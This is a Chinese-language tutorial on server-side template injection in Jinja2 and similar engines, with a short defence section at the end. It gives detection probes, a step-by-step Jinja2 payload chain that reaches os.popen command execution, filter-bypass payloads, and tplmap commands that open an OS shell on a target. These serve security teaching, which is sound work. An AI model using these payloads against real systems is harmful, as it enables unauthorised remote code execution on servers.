

## 什么是 SSTI

SSTI（Server-Side Template Injection）发生在用户输入被当作模板代码执行时。常见于 Python Web 框架（Flask/Jinja2、Django、Tornado）和 Java 框架（Freemarker、Velocity）中。

```python
# 危险代码
@app.route('/hello/<name>')
def hello(name):
    template = render_template_string('<h1>Hello ' + name + '</h1>')
    # 用户输入 '{{7*7}}' → 页面输出 '49' → SSTI 确认
```

---

## 检测方法

```python
# 数学测试
{{7*7}}           # 输出 49 = SSTI
{{7*'7'}}         # 输出 7777777 = Jinja2
${7*7}            # 输出 49 = Freemarker

# 配置探测
{{config}}        # Flask config 对象
{{request}}       # 请求对象
{{self}}          # 模板对象
```

---

## Jinja2 完整利用链



**逐步构造：**

```python
# 1. 拿到当前对象 → __class__
{{ ''.__class__ }}
# <class 'str'>

# 2. 找 object 基类 → __mro__
{{ ''.__class__.__mro__ }}
# (..., <class 'object'>)

# 3. 取 object → 索引 1（或 -1）
{{ ''.__class__.__mro__[1] }}

# 4. 枚举所有子类 → __subclasses__()
{{ ''.__class__.__mro__[1].__subclasses__() }}

# 5. 找 os._wrap_close 或 subprocess.Popen 的索引
# 手动遍历或用 Python 脚本定位

# 6. 调用 __init__.__globals__ 获取 os 模块 → popen
{{ ''.__class__.__mro__[1].__subclasses__()[X].__init__.__globals__['os'].popen('whoami').read() }}
```

---

## 绕过过滤

```python
# 1. 点号被过滤 → 用 [] 或 attr()
{{ ''['__class__'] }}
{{ ''|attr('__class__') }}

# 2. 下划线被过滤 → request.args 传入
{{ ''[request.args.a][request.args.b] }}
# ?a=__class__&b=__mro__

# 3. 引号被过滤 → request.args 传参
{{ ''|attr(request.args.attr) }}
# ?attr=__class__

# 4. 中括号被过滤 → __getitem__
{{ ''.__class__.__mro__.__getitem__(1) }}

# 5. import / os 被过滤 → __builtins__ 间接调用
{{ lipsum.__globals__['os'].popen('whoami').read() }}
```

---

## tplmap 自动化

```bash
# 安装
git clone https://github.com/epinna/tplmap
cd tplmap && pip install -r requirements.txt

# 使用（自动检测模板引擎 + 获取 Shell）
python2 tplmap.py -u 'http://target.com/page?name=test'
python2 tplmap.py -u 'http://target.com/page?name=test' --os-shell
```

---

## 防御

```python
# 1. 别拼接用户输入到模板
render_template_string('Hello ' + user_input)  # 危险

# 2. 用 render_template 传上下文
render_template('hello.html', name=user_input)  # 安全

# 3. 沙箱模板引擎（Sandboxed Jinja2）
```

---

> 本文仅用于授权安全测试与学习，请勿用于非法用途。
